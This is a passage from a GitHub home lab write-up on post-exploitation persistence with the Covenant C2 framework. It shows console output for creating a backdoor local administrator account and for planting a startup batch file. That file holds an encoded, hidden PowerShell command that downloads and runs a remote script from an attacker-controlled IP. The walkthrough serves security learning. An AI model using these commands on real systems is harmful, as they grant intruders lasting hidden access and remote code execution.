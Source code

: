 ## 7. New User Persistence

- As we have high integrity user session on Covenant we can do persistence by adding a new user in the local admin group.

``` shell
[07/24/2023 20:13:04 UTC] ShellCmd completed

(singhx) > shellcmd net users anonymous Password123! /add

The command completed successfully.


[07/24/2023 20:13:52 UTC] Shell completed

(singhx) > shell net users

User accounts for \\WORKSTATION-01

-------------------------------------------------------------------------------

Administrator            anonymous                DefaultAccount           

Guest                    s.chisholm               WDAGUtilityAccount       

The command completed successfully.


07/24/2023 20:14:55 UTC] Shell completed

(singhx) > shell net localgroup administrators anonymous /add

The command completed successfully.
```

## 8. Startup Persistence

- If we want to get the shell whenever the system turns on we can use `PersistStartup` Grunt Task.
- When we restart the system we will grant a new Grunt connection to our Covenant.

![image](https://github.com/thesinghsec/Active-Directory--Home-Lab-/assets/126919241/092c602e-479b-4e27-be7e-50631bef5dee)

```shell
07/24/2023 20:55:44 UTC] PersistStartup completed

(singhx) > PersistStartup /payload:"powershell -Sta -Nop -Window Hidden -EncodedCommand aQBlAHgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQA5ADIALgAxADYAOAAuADEAMAA3AC4AMQA4ADYALwByAGUAdgBlAC4AcABzADEAJwApAA==" /filename:"covenant.bat"

Startup Persistence suceeded for: covenant.bat
```

